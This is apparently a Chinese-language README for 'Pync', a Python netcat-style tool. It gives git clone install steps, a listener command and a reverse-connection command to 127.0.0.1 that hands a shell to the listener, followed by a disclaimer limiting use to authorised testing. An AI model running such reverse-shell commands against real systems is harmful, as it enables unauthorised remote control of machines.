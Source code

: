 ## 安装

环境

```
python >= 3.7
windows/linux
```

安装

```
git clone https://github.com/CJ-0107/Pync.git
cd Pync
```

## 使用

监听

```
python3 nc.py -p 5555
```

反弹

```
python3 nc.py -r 127.0.0.1 -p 5555
```

此时监听方收到反弹的shell

退出：exit

## 免责声明🧐

本工具仅面向合法授权的企业安全建设行为，如您需要测试本工具的可用性，请自行搭建测试环境。

在使用本工具进行检测时，您应确保该行为符合当地的法律法规，并且已经取得了足够的授权。请勿对非授权目标进行扫描。

如您在使用本工具的过程中存在任何非法行为，您需自行承担相应后果，我们将不承担任何法律及连带责任。